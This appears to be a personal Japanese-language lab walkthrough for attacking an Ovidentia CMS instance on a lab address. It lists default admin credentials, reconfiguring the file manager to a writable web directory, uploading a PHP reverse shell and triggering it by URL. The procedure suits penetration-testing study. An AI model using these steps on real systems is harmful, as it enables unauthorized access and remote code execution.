



# OVIDENTIA

* バージョン確認

  http://10.11.1.73:8080/PHP/install/配下のファイルを確認する

* DB接続情報や管理者画面の情報

  http://10.11.1.73:8080/PHP/install/install.txt

* 管理者画面へのログイン

  

  ```
  User    : admin@admin.bab
  Password: 012345678
  ```

  上記がデフォルトのパスワード

* 管理者画面でFileManagerのディレクトリを指定する

  

  

  

  ```
  C:\wamp\www\PHP
  ```

  となっていること。初期設定はC:\wamp\www\PHP\uploadとなっているが書き込み権限がないとエラーとなる。C:\wamp\www\PHPに書き込み権限がある場合がある。

  ちなみにここで新しいディレクトリを追加すると、

  http://10.11.1.73/PHP/配下に新しくディレクトリが作成される。ただしそのディレクトリには書き込み権限がなくfileuploadしようとするとエラー画面に遷移する。

  

* Administaration→File managerからディレクトリを追加する
  名前だけ入力してあとはデフォルトで問題ない

  追記：先にsiteの設定をしないとフォルダが登録できない

  

  

* 権限を追加する
  付けれる権限はすべて付与する

  

  

  

* ファイルを追加する

  

  

  リバースシェルはphpmonkeyベースのリバースシェルを利用

  ```bash
  cp /home/kali/Documents/tools/php-reverse-shell/src/reverse/php_reverse_shell.php ./
  ```

* 以下URLにアクセスしリバースシェルを実行する

  http://10.11.1.73:8080/PHP/fileManager/でディレクトリリスティングが有効になっている

  http://10.11.1.73:8080/PHP/fileManager/collectives/DG0/bbbbb/php_reverse_shell.php